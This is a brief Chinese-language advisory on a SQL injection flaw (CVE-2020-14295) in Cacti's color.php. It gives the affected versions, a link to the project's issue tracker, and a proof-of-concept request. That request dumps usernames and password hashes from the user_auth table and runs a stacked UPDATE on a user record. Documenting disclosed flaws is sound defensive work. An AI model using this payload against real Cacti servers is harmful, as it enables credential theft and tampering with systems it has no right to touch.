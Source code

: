 # Cacti SQL 注入漏洞（CVE-2020-14295）

Cacti 1.2.12 中 color.php 中存在 SQL注入漏洞，允许具有管理员权限的攻击者通过 filter 参数注入 SQL。因为产品接受堆积的查询，所以这可能导致远程命令执行。目前该漏洞 EXP 已公开。

影响版本：

Cacti < 1.2.13

详情可以参考：https://github.com/Cacti/cacti/issues/3622

PoC：

```
/cacti/color.php?action=export&header=false&filter=')+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth;update+user_auth+set+username='sqli'+where+id=3;--+-

```